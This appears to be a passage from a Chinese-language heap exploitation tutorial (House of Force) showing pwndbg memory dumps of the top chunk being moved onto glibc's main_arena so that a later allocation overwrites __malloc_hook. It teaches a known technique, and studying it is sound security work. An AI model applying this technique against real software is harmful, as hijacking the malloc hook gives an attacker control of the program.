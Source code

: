 ```c
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd1b78	0x00007ffff7dd1b88
pwndbg> x/16gx 0x7ffff7dd1b00
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92ea0	0xffff800008830519
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 #top_chunk
pwndbg> 
```

之后，我们只要再次分配就可以控制 0x7ffff7dd1b10 处的 __malloc_hook 值了：

```c
pwndbg> heap
Allocated chunk
Addr: 0x7ffff7dd1000
Size: 0x7ffff7fdb000

pwndbg> top_chunk
Top chunk
Addr: 0x7ffff7dd1b20
Size: 0x-7ffff77cfb07
pwndbg> x/20gx 0x7ffff7dd1b00
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92ea0	0x0000000000000021#new_chunk
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0xffff8000088304f9 #top_chunk
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b20 #指向top_chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd1b78	0x00007ffff7dd1b88
pwndbg> 
```

记住两个公式解题更简单，下一小节将会讲解。

